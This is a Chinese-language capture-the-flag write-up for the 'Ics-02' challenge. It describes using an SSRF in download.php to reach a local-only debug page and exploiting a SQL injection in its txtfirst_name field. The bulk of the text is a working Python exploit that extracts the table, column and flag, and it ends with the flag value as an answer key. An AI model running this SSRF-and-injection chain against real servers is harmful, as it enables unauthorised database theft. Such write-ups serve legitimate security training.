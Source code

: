 # Ics-02

> 打开网页,发现提示可以下载一个文档,说是有帮助,下载后是一个pdf文件,内容是关于ssrf漏洞的.扫目录,发现存在/secret目录,打开后发现存在2个文件,secret.php可以直接访问,访问secret_debug.php显示You (xx.xx.xx.xx) do not have access to this page...联想到之前的ssrf考点,看来是要以ssrf漏洞去访问这个文件了.

> 访问secret.php,随便点击选项,一直往下,到secret.php?s=3这个页面时,发现txtfirst_name参数存在sql注入.需要注意的直接请求url会导致第一个&符号处被加上.pdf导致其余参数无法传入debug文件里面,所以这里要给特殊字符url编码一次再请求,apache服务器就会自动解密一次,这样.pdf就会加在最后一个参数后面了.

## payload

```
import random
import urllib
import requests

url = 'http://61.147.171.105:54754/download.php'

# subquery = "database()"
# ssrfw
# subquery = "select table_name from information_schema.tables where table_schema='ssrfw' LIMIT 1"
# cetcYssrf
# subquery = "select column_name from information_schema.columns where table_name='cetcYssrf' LIMIT 1"
# secretname -> flag
# subquery = "select column_name from information_schema.columns where table_name='cetcYssrf' LIMIT 1, 1"
# value -> flag{cpg9ssnu_OOOOe333eetc_2018}
subquery = "select value from cetcYssrf LIMIT 1"

id = random.randint(1, 10000000)

d = ('http://127.0.0.1/secret/secret_debug.php?' +
        urllib.parse.urlencode({
            "s": "3",
            "txtfirst_name": "L','1',(" + subquery + "),'1'/*",
            "txtmiddle_name": "m",
            "txtLast_name": "y",
            "txtname_suffix": "Esq.",
            "txtdob": "*/,'01/10/2019",
            "txtdl_nmbr": id,
            "txtRetypeDL": id,
	   		"btnContinue2":"Continue"
            }) 
)

r = requests.get(url, params={"dl": d})
print(r.text)
```

## flag

> flag{cpg9ssnu_OOOOe333eetc_2018}